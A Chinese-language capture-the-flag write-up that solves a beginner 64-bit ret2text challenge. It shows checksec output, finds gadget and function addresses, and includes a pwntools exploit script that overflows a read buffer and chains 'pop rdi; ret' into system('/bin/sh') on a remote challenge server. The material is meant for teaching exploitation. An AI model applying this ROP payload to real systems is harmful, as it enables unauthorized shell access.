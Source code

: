 ```yaml
---
title: 基础栈溢出ret2text 组合函数
layout: doc
---
```

[[toc]]

> 64位寄存器8个字节，传参是寄存器+栈，rdi,rsi,rdx,rcx,r8,r9按顺序依次

## 基础检查
> 本例题是PolarD&N的基础入门pwn题 x64
```bash
┌──(kali㉿kali)-[~/win/Downloads]
└─$ file x64                                            
x64: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=3497b5907db0d7099f07ea1f7b3ee9ef6761c412, not stripped
                                                                                                       
┌──(kali㉿kali)-[~/win/Downloads]
└─$ checksec --file=x64 
[*] '/home/kali/win/Downloads/x64'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```
64位小端序，没有保护

## IDA反编译源码
![alt text](image-5.png)

![alt text](image-6.png)

没有可供直接利用的getshell函数，因此需要自己构造
溢出函数是read 且缓冲区大小是0x80h
摁下shift+F12查看字符串

![alt text](image-7.png)
> 0000000000601060

存在/bin/sh 字符串及其地址，寻找system函数地址

![alt text](image-8.png)
> 0000000000400560


## 传参/bin/sh给system
### 使用ROPgadget找到rdi传入参数
```bash
┌──(kali㉿kali)-[~/win/Downloads]
└─$ ROPgadget --binary x64 --only "pop|ret" | grep "rdi"
0x00000000004007e3 : pop rdi ; ret
```
为什么是 pop rdi；ret
?
pop 是弹出栈上的值给rdi 也就是 rdi被赋值

而ret就是把 弹出栈上的值给rip 导致程序的执行跳转到栈上的某个地址

**而之前的直接填入函数地址而是因为他的位置就在函数调用结束后的返回地址，做了一个覆盖**

64位函数调用先用寄存器传参数 rdi,rsi,rdx,rcx,r8,r9按顺序依次


## 编写exp脚本
```py
from pwn import *

# io = process('./x64')
io = remote("120.46.59.242",2115)

padding = 0x80 + 8 # rbp

system_addr = 0x400560
sh_addr = 0x601060

rdi_ret = 0x00000000004007e3

payload = b'a' * padding + p64(rdi_ret) + p64(sh_addr) + p64(system_addr)

io.sendline(payload)
io.interactive()
```
**为什么顺序是 a*padding; pop rdi;ret sh_addr; system_addr;**
- **先填充缓冲区覆盖当前函数的返回地址位pop rdi;ret 这里**
- **当执行pop rdi的时候，会从栈里面取走sh_addr，这时，栈里只剩system_addr;**
- **此时剩ret指令 （pop rip） 正好将rip指向system函数，完成跳转**
> 建议自己调试查看栈空间内容即可理解

> 参考
> https://blog.csdn.net/qq_31343581/article/details/119996405
